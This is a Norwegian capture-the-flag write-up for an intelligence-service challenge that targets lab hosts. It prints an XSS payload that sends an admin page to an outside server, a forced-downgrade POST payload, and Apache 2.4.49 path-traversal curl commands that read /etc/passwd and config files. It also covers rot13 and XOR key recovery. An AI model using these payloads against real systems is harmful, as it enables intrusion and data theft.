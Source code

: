 <p align="center">
<img src="https://upload.wikimedia.org/wikipedia/commons/thumb/7/7a/Coat_of_arms_of_the_Norwegian_Intelligence_Service.svg/800px-Coat_of_arms_of_the_Norwegian_Intelligence_Service.svg.png" style="width:200px;display:block;text-align:center;">
</p>

<h1>Oppdrag</h1>
Vi får vite om 2 ulike side som etjenesten har fanget opp. Meldingstjenesten blog.utl og anvilshop.utl, i tillegg får vi levert ut en apk fil som er appen de bruker til å kommunisere. Du kan lese oppdraget <a href="https://github.com/UllernJ/Etjenesten-writeup/blob/main/oppdrag.txt">her</a>.

<h2>2.1</h2>
Det vi skal er å reversere appen, jeg overførte filen til tlfen og la merke til jeg ble automatisk logget inn som user. Dette betyr at passordet er lagret i appen. Jeg brukte jadx-gui for å undersøke filen og fant ut at det ble brukt en rot13 kryptering på passordet.
<p></p>
<code>editor.putString("password", rot13("xxxxxxxx"));</code>
<p></p>
flagget er passordet dekryptert. rot13 er en veldig dårlig kryptering og kan lett dekrypteres.
Vi har nå funnet innlogging til en tor nettside / blog.utl

<h2>2.2</h2>
Flagget ligger i meta dataen på nettsiden, dette flagget kan vi finne med <code>curl blog.utl -v</code> eller selv gå inn på siden via tor link og lese av meta dataen.
<p></p>
<h2>2.3</h2>
Det vi finner ut her via /logs/ er at admin refresher hoved siden hvert 10. sekund og responderer på XSS. Vi ser også at han gjør en POST request på /admin/update. Det vi vil her er å finne ut hva slags parametere /admin/update tar inn. Og naturligvis ligger det i /admin/ siden.
Det jeg gjorde da var å starte en webserver på CTF’en sin ssh. Siden admin på den siden kunne kommunisere med oss der, siden dette da er et lukket miljø.

```
//get_site.js
<script>
xhr = new XMLHttpRequest();
xhr.open("GET","/admin/");
xhr.send();
xhr.onload = function(){
  request = new XMLHttpRequest();
  request.open("GET", "http://10.1.44.162/"+encodeURI(xhr.responseText), true);
  request.send();
}
</script>
```
Scripten <a href="https://github.com/UllernJ/Etjenesten-writeup/blob/main/get_site.js">(get_site.js)</a> gjorde det mulig for oss å se hvordan nettsiden så ut. Det eneste vi trengte å gjøre var å decodeURI for å se innholdet. Ved å se innholdet får vi flagget. 

<h2>2.4</h2>
Det vi ser er at vi kan sende parametere til /admin/update via /admin. Dette gjør vi med <a href="https://github.com/UllernJ/Etjenesten-writeup/blob/main/post_adminupdate.js">post_adminupdate.js</a>

```
//post_adminupdate.js
<script>
xhr = new XMLHttpRequest();
xhr.open("POST","/admin/update", true);
xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
xhr.send("service=apache&version=2.4.49");  //vi får admin til å nedgradere anvilshop.utl
</script>
```

Vi får flagget ved å endre innholdet til anvilshop.utl.

<h2>2.5</h2>
Det vi finner ut ved et kjapp google søk er at med denne apache versjonen kan utnytes ved path traversal.
<p></p>
Dette åpner for denne exploiten: https://www.exploit-db.com/exploits/50383
Etter mye graving fant jeg 3 interessante filer (disse ga også samme flagg)

```
curl anvilshop.utl/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/apache2/httpd.conf
curl anvilshop.utl/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
curl anvilshop.utl/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/ssh/sshd_config
```

<h2>2.9</h2>
Jeg gjorde et nmap på anvilshop.utl og la merke til at port 22 var åpen og når vi ssh som user fikk vi er spesiell response.
Og igjen i sshd_config fant vi ut at hosten brukte en PAM autorisering for ssh og refererte til en fil med navn <b>pam_customs.so</b>
<p>I filen fant vi mye interessant, spesielt denne funksjonen fanget interessen.</p>
<img src="https://github.com/UllernJ/Etjenesten-writeup/blob/main/pam.png">
<p>Her kan vi se at den bruker en funksjon som heter <b>Crypto_secretbox_easy</b>. Library finner du <a href="https://sodium-friends.github.io/docs/docs/secretkeyboxencryption">her.</a></p> Dette gjorde det litt lettere å forstå hva det er vi ser på. Vi kan også se at den henter en nøkkel fra <b>/tmp/keyfile</b>. 
Denne viser seg å være nyttig til dekrypteringen. Det viser seg at passorde endrer seg jevnelig, siden den krever at vi vet hvordan vi krypterer og får løsningen. Siden krypterings koden ikke er så fin så linker jeg den <a href="https://github.com/UllernJ/Etjenesten-writeup/blob/main/ssh_decrypt.js">her.</a>

<h2>2.10</h2>
Med litt letting på brukeren finner vi enda en ssh server å koble seg på. Denne løses helt likt som 2.9.

<h2>3.1.1</h2>
Her får vi en fil der flagget er kryptert. Men vi har også tilgang til å bruke programmet som krypterte flagget. Flagget er 46 bytes, så jeg forsøkte å løse denne med xor.
Jeg krypterte 46*A'er og brukte XOR for å få nøkkelen. Vi får ta keyen i hexadecimal:

```
35323936383939353737333632323539393431333839313234393732313737353238333437393133313531353537
```

Dette kombinert med den krypterte flagget ga da flagget. Vi får da svaret i hexidecimal.

```
65746a7b6c796b6b656c69675f65725f64656e5f736f6d5f7665745f73697374655f7369666665725f695f70697d
```

Som vi kan konvertere tilbake til: <b>etj{lykkelig_er_den_som_vet_siste_siffer_i_pi}</b>
